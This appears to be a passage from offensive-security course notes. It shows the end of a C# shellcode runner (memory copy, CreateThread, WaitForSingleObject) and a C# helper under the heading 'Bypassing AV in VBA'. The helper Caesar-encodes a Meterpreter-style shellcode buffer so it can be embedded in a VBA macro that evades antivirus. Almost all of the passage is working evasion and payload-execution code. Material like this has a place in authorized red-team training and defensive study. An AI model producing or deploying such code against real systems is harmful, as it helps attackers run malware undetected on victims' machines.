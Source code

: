 ```csharp
            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}

```

## **Bypassing AV in VBA**

### **Helper**

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Helper
{
    internal class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[636] { 0xfc, 0x48, 0x83, ..., 0x56, 0xff, 0xd5 };

			// Encryption routine with Caesar cipher with a substitution key of 2 which, while iterating through each byte value in the shellcode, adds 2 to its value.
			// We performed a bitwise AND operation with 0xFF to keep the modified value within the 0-255 range (single byte) in case the increased byte value exceeds 0xFF.
            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }
			
			uint counter = 0;
			// Prints the encrypted shellcode to the console
			StringBuilder hex = new StringBuilder(encoded.Length * 2);
			foreach(byte b in encoded)
			{
				hex.AppendFormat("{0:D}, ", b);
			    counter++;
			    if(counter % 50 == 0)
			    {
			        hex.AppendFormat("_{0}", Environment.NewLine);
			    }
		  }
		  Console.WriteLine("The payload is: " + hex.ToString());
        }
    }
}
```
